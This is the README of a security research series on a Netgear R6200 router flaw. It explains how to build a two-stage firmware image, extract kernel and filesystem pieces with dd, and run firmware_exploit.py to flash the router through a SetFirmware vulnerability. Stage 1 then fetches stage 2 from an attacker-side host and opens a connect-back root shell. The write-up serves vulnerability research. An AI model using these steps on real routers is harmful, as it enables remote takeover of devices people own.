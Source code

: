 ##Broken, Abandoned, and Forgotten Code, Part 14

This code corresponds with [part 14](http://shadow-file.blogspot.com) of the Broken, Abandoned, and Forgotten Code series. In this part we build the second stage firmware image that will be flashed to the device by stage 1 and, after rebooting, will provide a remote root session.

There have been substantial changes to the part 14 code from the previous part. While ``setfirmware.py`` is still present, there is a new exploit script, ``firmware_exploit.py``. This script uses classes declared in the former. It also provides the various connect-back servers you require to serve connections to the first and second stage payloads. It requires no command line arguments. Instead, configuration parameters are specified in ``environment.py``, which is thoroughly documented.

A build system to create the stage 1 and 2 firmware images can be found in payload-src. However, there are a few pieces I didn't include due to licensing.

* Kernel image (proprietary Netgear EULA)
* Root filesystem (proprietary Netgear EULA)
* mtd writing utility from OpenWRT (GPL licensed)

You can extract the filesystem and kernel from a stock Netgear firmware image. I used and tested the Netgear firmware R6200-V1.0.0.28_1.0.24.chk:

    $ md5sum R6200-V1.0.0.28_1.0.24.chk
    0bbb9004c8cddf2d9602719c34c9e33e  R6200-V1.0.0.28_1.0.24.chk

Identify the offsets and sizes of the kernel and filesystem components using binwalk, and then extract them using `dd`:

     $ dd if=R6200-V1.0.0.28_1.0.24.chk of=squashfs.bin skip=1328446 bs=1
     $ dd if=R6200-V1.0.0.28_1.0.24.chk of=kernel-lzma.bin skip=86 bs=1 count=1328360

Put ``kernel-lzma.bin`` into payload-src/.

Unpack the squashfs.bin into a root filesystem. Extracting a SquashFS filesystem is beyond the scope of this documentation.

You'll need to put a copy of the non-minimized root filesystem in place for stage 2. Put an unmodified ``rootfs.tar.gz`` in ``exploit-src/stage2/src/``.

Then, you'll need to generate a minimized root filesytem directory as described in [part 11](http://shadow-file.blogspot.com/2015/07/abandoned-part-11.html).

Tar up your minimized root filesystem, and put ``rootfs.tar.gz`` in ``exploit-src/stage1/src/``.

The mtd writer is responsible for flashing the stage 2 firmware image. I have modified this utility from OpenWRT to work with this project. Check out the source and put it in place:

    $ git clone https://github.com/zcutlip/mtdwriter.git
    $ tar zcvf broken_abandoned/part_13/exploit-src/stage1/src/mtdwriter.tar.gz mtdwriter/

You'll also need a little endian MIPS gcc toolchain. Ensure ``mipsel-linux-gcc`` and friends are in your ``$PATH``.

With the missing pieces in place, you can build the stage 1 and 2 firmware images:

    $ cd exploit-src/
    $ ./buildmipsel.sh

With this update, assuming you've generated a working, minimized firmware, you should be able to exploit the ``SetFirmware`` vulnerability, and flash your firmware image to the router. Edit environment.py and specify the appropriate connect-back ports, target IP address and port, names of stage 1 and 2 files, and the directory to serve them out of. Then run:

``./firmware_exploit.py``

Upon rebooting, the stage 1 firmware will attempt to download the second stage from ``http://10.12.34.56:8080/stage2mtd.bin``. Then, if all goes well, there is a second reboot and then a connect-back shell to the IP address and port you specified in the ``telnetenabled`` script.
